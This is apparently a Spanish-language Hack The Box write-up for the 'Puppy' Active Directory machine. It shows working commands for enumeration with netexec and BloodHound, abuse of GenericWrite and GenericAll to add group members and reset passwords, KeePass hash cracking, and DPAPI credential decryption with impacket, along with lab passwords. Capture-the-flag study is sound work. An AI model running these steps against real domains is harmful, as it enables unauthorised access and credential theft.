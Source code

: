 # Puppy

- **Plataforma:** HTB 
- **Fecha de resolución:** 26/07/2025
- **Autor:** Albr_0x4a

- Enlace a mi archivo de notas para más detalle: [notes.md](./notes.md)

---

## Escaneo de Puertos con Nmap:

- **Identificar puertos abiertos:**

- **Comando:** nmap -p- -n -Pn --min-rate 5000 -sS 10.10.11.70 -oG ports

- **Identificar servicios y versiones en los puertos abiertos:**

- **Comando:** nmap -p53,88,111,135,139,389,445,464,593,636,2049,3260,3268,3269,5985,9389,49664,49667,49671,49674,54485,54494,54509 -sCV 10.10.11.70 -oN target

![](./screenshots/open_ports.png)

- Una vez obtenidos los puertos abiertos, nos damos cuenta que tenemos un entorno de `AD`, empezamos a investigar, primero por el servicio **SMB** con las credenciales que nos brinda HTB para esta máquina, y buscamos qué recursos compartidos tenemos y posible información expuesta. 

- Después de no encontrar nada de interés en los recursos compartidos, listamos los usuarios utilizando `netexec`:

```bash
netexec smb $IP -u "levi.james" -p 'KingofAkron2025!' --users

SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.70     445    DC               Administrator                 2025-02-19 19:33:28 0       Built-in account for administering the computer/domain 
SMB         10.10.11.70     445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.70     445    DC               krbtgt                        2025-02-19 11:46:15 0       Key Distribution Center Service Account 
SMB         10.10.11.70     445    DC               levi.james                    2025-02-19 12:10:56 0        
SMB         10.10.11.70     445    DC               ant.edwards                   2025-02-19 12:13:14 0        
SMB         10.10.11.70     445    DC               adam.silver                   2025-07-23 20:19:29 0        
SMB         10.10.11.70     445    DC               jamie.williams                2025-02-19 12:17:26 0        
SMB         10.10.11.70     445    DC               steph.cooper                  2025-02-19 12:21:00 0        
SMB         10.10.11.70     445    DC               steph.cooper_adm              2025-03-08 15:50:40 0        
SMB         10.10.11.70     445    DC               [*] Enumerated 9 local users: PUPPY
```

- Para tener una idea generalizada de cómo se relacionan todos estos objetos dentro del entorno de `AD`, utilizamos `bloodhound`, para ello primero extraemos la información con `netexec`:

```bash
netexec ldap puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server 10.10.11.70
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
LDAP        10.10.11.70     389    DC               Resolved collection methods: group, localadmin, session, rdp, dcom, psremote, container, objectprops, acl, trusts
LDAP        10.10.11.70     389    DC               Done in 00M 20S
LDAP        10.10.11.70     389    DC               Compressing output into /root/.nxc/logs/DC_10.10.11.70_2025-07-23_160327_bloodhound.zip
```

- Luego lanzamos `bloodhound` y cargamos todos los archivos que nos generó el comando anterior.

- Tras un rato investigando, notamos que el usuario `levi.james`, al que tenemos acceso, pertenece al grupo `HR`, el cual posee el privilegio `GenericWrite` sobre el grupo `DEVELOPERS`, lo cual nos permite agregar usuarios a este grupo, con el siguiente comando:
  
  ```bash
  net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "dc.puppy.htb"
  ```

- Revisamos nuevamente los recursos compartidos, para comprobar si ahora tenemos los privilegios del grupo `DEVELOPERS`, y efectivamente ahora tenemos permiso para acceder y leer el contenido del recurso `DEV`, el cual antes no teníamos.

![](./screenshots/smb_levi.png)

![](./screenshots/dev_share.png)

- En este directorio obtenemos el archivo `recovery.kdbx` el cual es una base de datos cifrada, utilizada por el gestor de contraseñas `KeePassXC`. Si utilizamos la herramienta `keepass2john`, podemos obtener el hash e intentar obtener la contraseña de esta base de datos.

![](./screenshots/crack_recovery_kdbx.png)

- Con esta contraseña podemos acceder a la base de datos, y obtenemos todas las contraseñas de los usuarios almacenadas en la base de datos.

![](./screenshots/recovery_kdbx.png)

- Después de probar las contraseñas, encontramos que la única que funciona es la del usuario `ant.edwards`, quien luego de investigarlo nos encontramos con que pertenece al grupo `SENIOR DEVS` que posee el permiso `GenericAll` sobre el usuario `adam.silver`, lo que significa que tenemos control absoluto sobre este usuario.

![](./screenshots/generic_all.png)

- Para abusar de este privilegio vamos a tratar de reiniciar la contraseña de el usuario `adam.silver`, para obtener el control de este usuario.

![](./screenshots/adam_change_password.png)

- De manera exitosa logramos cambiar la contraseña, pero al tratar de acceder nos encontramos con que la cuenta no está habilitada, por lo que la habilitamos y accedemos a la máquina ya que el usuario `adam.silver` pertenece al grupo `REMOTE MANAGEMENT USERS`.

![](./screenshots/winrm.png)

- Ya dentro de la máquina, navegamos hasta el escritorio del usuario y obtenemos la primera flag.

![](./screenshots/user_flag.png)

- Luego de explorar un poco, encontramos un directorio `Backups` en el directorio `C:\`, el cual contiene un arhcivo `.zip` que nos descargamos a nuestra máquina para inspeccionarlo mejor.

![](./screenshots/download_zip.png)

- Al descomprimir este archivo, nos encontramos con una página web, y un archivo `nms-auth-config.xml.bak`, que contiene credenciales del usuario `steph.cooper` que también pertenece al grupo `REMOTE MANAGEMENT USERS` y podemos conectarnos a la máquina de igual forma.

![](./screenshots/zip_creds.png)

- Una vez dentro del sistema como el usuario `steph.cooper`, y después de un tiempo navegando y enumerando el sistema nos encontramos con una **masterkey** de **DPAPI**, esta se utiliza para cifrar datos sensibles, aqui dejo un recurso para más información sobre **DPAPI**: [enlace](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html)

![](./screenshots/dpapi_directory.png)

- Al intentar descargar el archivo utilizando `evil-winrm`, obtenemos un error, por lo que procedemos a obtener el archivo utilizando base64.

![](./screenshots/masterkey_base64.png)

- Una vez obtenido este archivo, con la herramienta `dpapi.py` de impacket procedemos a obtener la key cifrada, utilizando la misma contraseña que ya tenemos del usuario `steph.cooper`:

```bash
dpapi.py masterkey -file encrypted_file -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Password:
Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

- Luego de buscar en varias rutas donde se suelen almacenar estos datos sensibles, encontramos posibles credenciales cifradas en la ruta `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9`, y procedemos a obtener este archivo utilizando nuevamente base64.

![](./screenshots/credentials.png)

- Utilizamos nuevamente la herramienta `dpapi.py` para obtener el contenido cifrado, y obtenemos las credenciales del usuario `steph.cooper_adm`, el cual tiene privilegios de administrador:

```bash
dpapi.py credential -file encrypted_file -key '0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

- Por último nos conectamos al sistema, navegamos a `C:\Users\Administrator\Desktop\`, y obtenemos la flag.

![](./screenshots/root_flag.png)